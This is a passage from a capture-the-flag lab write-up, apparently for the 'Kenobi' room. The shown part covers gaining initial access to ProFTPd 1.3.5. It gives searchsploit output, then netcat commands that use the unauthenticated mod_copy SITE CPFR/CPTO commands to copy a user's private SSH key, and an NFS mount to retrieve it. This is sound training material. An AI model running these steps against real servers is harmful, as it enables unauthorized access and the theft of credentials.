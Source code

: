 WE can see the only mount is `/var`.

## [Task 3] Gain initial access with ProFtpd

ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions.

### 1 Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port. What is the version?

1.3.5.

### 2 We can use searchsploit to find exploits for a particular software version. Searchsploit is basically just a command line search tool for exploit-db.com. How many exploits are there for the ProFTPd running?

    ┌─[✗]─[user@parrot]─[~/gitclones]
    └──╼ $searchsploit proftpd 1.3.5
    ------------------------------------------------------------ ---------------------------------
    Exploit Title                                              |  Path
    ------------------------------------------------------------ ---------------------------------
    ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)   | linux/remote/37262.rb
    ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution         | linux/remote/36803.py
    ProFTPd 1.3.5 - File Copy                                   | linux/remote/36742.txt
    ------------------------------------------------------------ ---------------------------------
    Shellcodes: No Results

There are 3.

### 3

*You should have found an exploit from ProFtpd's mod_copy module. The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.*

*We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.*

    ┌─[user@parrot]─[~/gitclones]
    └──╼ $nc 10.10.111.100 21
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.111.100]
    SITE CPFR /home/kenobi/.ssh/id_rsa
    350 File or directory exists, ready for destination name
    SITE CPTO /var/tmp/id_rsa
    250 Copy successful

Then had to install nfs-commons since it wasn't installed:
    sudo apt-get install nfs-commons

    ┌─[user@parrot]─[~/gitclones]
    └──╼ $sudo mount 10.10.111.100:/var /mnt/kenobiNFS
